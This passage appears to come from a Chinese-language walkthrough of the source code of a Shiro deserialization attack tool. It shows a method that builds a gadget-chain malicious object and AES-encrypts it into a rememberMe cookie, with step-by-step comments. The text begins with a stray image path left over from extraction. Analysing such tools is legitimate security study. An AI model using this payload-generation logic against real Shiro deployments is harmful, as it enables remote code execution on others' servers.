       25.         } catch (Exception var8) {
    
      26.             this.mainController.logTextArea.appendText(Utils.log(var8.getMessage()));
    
      27.         }
    
      28.         return flag;
    
      29.     }
    
    
    

下面分析`remeberMe`生成部分，主要包含四个部分。

  * 获取利用链的Class对象并实例化

  * 根据回显方式创建`TemplatesImpl`对象

  * 传入`TemplatesImpl`通过getObject获取构建好的恶意对象

  * 构建好恶意对象后AES加密后返回

    
          1. public String GadgetPayload(String gadgetOpt, String echoOpt, String spcShiroKey) {
    
      2.         String rememberMe = null;
    
      3.         try {
    
      4.             //获取利用链的Class对象
    
      5.             Class<? extends ObjectPayload> gadgetClazz = com.summersec.attack.deser.payloads.ObjectPayload.Utils.getPayloadClass(gadgetOpt);
    
      6.             ObjectPayload<?> gadgetPayload = (ObjectPayload)gadgetClazz.newInstance();
    
      7.             //根据回显方式创建TemplatesImpl对象
    
      8.             Object template = Gadgets.createTemplatesImpl(echoOpt);
    
      9.             //创建恶意对象
    
      10.             Object chainObject = gadgetPayload.getObject(template);
    
      11.             //生成的恶意对象AES加密后返回
    
      12.             rememberMe = shiro.sendpayload(chainObject, this.shiroKeyWord, spcShiroKey);
    
      13.         } catch (Exception var9) {
    
      14. //            var9.printStackTrace();
    
      15.             this.mainController.logTextArea.appendText(Utils.log(var9.getMessage()));
    
      16.         }
    
      17.         return rememberMe;
    
      18.     }
    
    
    

获取利用链的Class对象并实例化

根据类名获取对应的Class对象

